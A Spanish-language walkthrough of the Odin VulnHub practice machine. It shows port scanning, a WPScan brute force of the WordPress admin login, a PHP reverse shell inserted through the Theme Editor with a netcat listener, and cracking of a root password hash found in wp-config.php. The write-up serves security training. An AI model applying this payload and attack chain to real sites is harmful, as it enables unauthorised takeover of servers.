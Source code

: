 ```yaml
---
icon: flag
---
```


# Odin VulnHub

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-25 11:32 CEST
Nmap scan report for 192.168.5.202
Host is up (0.00048s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.5.3
|_http-title: vikingarmy &#8211; Just another Joomla site
MAC Address: 00:0C:29:F6:90:B6 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.44 seconds
```

Tendremos que editar el archivo `hosts` para que nos cargue el `wordpress`...

```shell
sudo nano /etc/hosts

#Dentro del nano
<IP>        odin
```

Lo guardamos y ahora si lo recargamos nos ira...

Como hay un `wordpress` si nos vamos a `/wp-admin` veremos un panel de login, si probamos a poner como usuario `admin` y contraseña `admin` veremos que no son las credenciales pero nos confirma que el usuario `admin` existe por lo que haremos lo siguiente...

```shell
wpscan --url http://odin/ --usernames admin --passwords <WORDLIST>
```

Info:

```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://odin/ [192.168.5.202]
[+] Started: Tue Jun 25 11:40:20 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://odin/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] Registration is enabled: http://odin/wp-login.php?action=register
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://odin/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://odin/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.5.3 identified (Insecure, released on 2020-10-30).
 | Found By: Rss Generator (Passive Detection)
 |  - http://odin/?feed=comments-rss2, <generator>https://wordpress.org/?v=5.5.3</generator>
 | Confirmed By: Emoji Settings (Passive Detection)
 |  - http://odin/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.5.3'

[+] WordPress theme in use: twentytwenty
 | Location: http://odin/wp-content/themes/twentytwenty/
 | Last Updated: 2024-04-02T00:00:00.000Z
 | Readme: http://odin/wp-content/themes/twentytwenty/readme.txt
 | [!] The version is out of date, the latest version is 2.6
 | Style URL: http://odin/wp-content/themes/twentytwenty/style.css?ver=1.5
 | Style Name: Twenty Twenty
 | Style URI: https://wordpress.org/themes/twentytwenty/
 | Description: Our default theme for 2020 is designed to take full advantage of the flexibility of the block editor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://odin/wp-content/themes/twentytwenty/style.css?ver=1.5, Match: 'Version: 1.5'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=========================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / qwerty                                                                                                                                                              
Trying admin / jessica Time: 00:00:00 <                                                                                                          > (20 / 14344412)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: qwerty

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Jun 25 11:40:29 2024
[+] Requests Done: 160
[+] Cached Requests: 40
[+] Data Sent: 43.663 KB
[+] Data Received: 32.726 KB
[+] Memory used: 292.051 MB
[+] Elapsed time: 00:00:08
```

Veremos que nos saco las credenciales del usuario `admin`...

```
User = admin
Password = qwerty
```

Por lo que nos logueamos, y una vez dentro nos iremos a `Appearance` y dentro del mismo a `Theme Editor` de ahi vamos a la opcion llamada `Theme Functions` y dentro del codigo `php` meteremos una `Reverese Shell`...

```php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

Estamos a la escucha...

```shell
nc -lvnp <PORT>
```

Y le damos al boton de `Update File` una vez hecho eso ya tendremos una shell con el usuario `www-data`...

Sanitizamos la shell...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si nos vamos la siguiente ubicacion...

```shell
cd /var/www/html
```

Y leemos la configuracion tipica de un `worpress`...

```shell
cat wp-config.php
```

Info:

```php
/** root:$6$e9hWlnuTuxApq8h6$ClVqvF9MJa424dmU96Hcm6cvevBGP1OaHbWg//71DVUF1kt7ROW160rv9oaL7uKbDr2qIGsSxMmocdudQzjb01:18600:0:99999:7:::*/
```

Veremos una linea con eso de ahi, por lo que intentaremos crackearlo...

```shell
nano hash

#Dentro del nano
root:$6$e9hWlnuTuxApq8h6$ClVqvF9MJa424dmU96Hcm6cvevBGP1OaHbWg//71DVUF1kt7ROW160rv9oaL7uKbDr2qIGsSxMmocdudQzjb01
```

```shell
john --wordlist=<WORDLIST> hash
```

Info:

```
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
jasmine          (root)     
1g 0:00:00:00 DONE (2024-06-25 13:53) 1.960g/s 4015p/s 4015c/s 4015C/s 123456..lovers1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Veremos que la contraseña de `root` es `jasmine`, por lo que haremos lo siguiente...

```shell
su root
```

Metemos la contarseña y ya seriamos `root` ahora leeremos la flag...

> bjorn (flag\_final)

```
cσηgяαтυℓαтιση

Have a nice day!


aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g/dj1WaGtmblBWUXlhWQo=
```
